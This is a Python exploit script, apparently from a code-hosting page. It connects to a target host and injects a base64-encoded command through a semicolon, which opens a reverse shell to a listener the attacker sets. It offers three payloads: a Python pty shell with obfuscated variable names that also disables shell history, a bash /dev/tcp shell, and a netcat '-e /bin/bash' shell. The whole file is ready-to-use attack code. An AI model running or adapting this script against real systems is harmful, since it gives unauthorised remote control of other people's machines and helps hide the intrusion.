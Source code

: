 ```
#!/usr/bin/python3
import argparse
import socket
import base64

# Sets the target ip and port from argparse
parser = argparse.ArgumentParser()
parser.add_argument('ip', help='target ip')
parser.add_argument('port', help='target port', type=int)
parser.add_argument('-payload', help='set payload type', required=True, choices=['python', 'netcat', 'bash'])
args = parser.parse_args()

# Sets the local ip and port (address and port to listen on)
local_ip = ''  # CHANGE THIS
local_port = ''  # CHANGE THIS 

# The different types of payloads that are supported
python_payload = f'python -c "import os;import pty;import socket;tLnCwQLCel=\'{local_ip}\';EvKOcV={local_port};QRRCCltJB=socket.socket(socket.AF_INET,socket.SOCK_STREAM);QRRCCltJB.connect((tLnCwQLCel,EvKOcV));os.dup2(QRRCCltJB.fileno(),0);os.dup2(QRRCCltJB.fileno(),1);os.dup2(QRRCCltJB.fileno(),2);os.putenv(\'HISTFILE\',\'/dev/null\');pty.spawn(\'/bin/bash\');QRRCCltJB.close();" '
bash_payload = f'bash -i >& /dev/tcp/{local_ip}/{local_port} 0>&1'
netcat_payload = f'nc -e /bin/bash {local_ip} {local_port}'

# our socket to interact with and send payload
try:
    s = socket.create_connection((args.ip, args.port))
except socket.error as error:
    print('connection to target failed...')
    print(error)
    
# craft out payload and then it gets base64 encoded
def gen_payload(payload_type):
    base = base64.b64encode(payload_type.encode())
    return f'echo {base.decode()} |base64 -d|/bin/bash'

# all the different payload options to be sent
if args.payload == 'python':
    try:
        s.sendall((f'AB; {gen_payload(python_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')

if args.payload == 'netcat':
    try:
        s.sendall((f'AB; {gen_payload(netcat_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')

if args.payload == 'bash':
    try:
        s.sendall((f'AB; {gen_payload(bash_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')
    
#check display any response from the server
data = s.recv(1024)
s.close()
if data != '':
    print('Exploit sent successfully!')
```
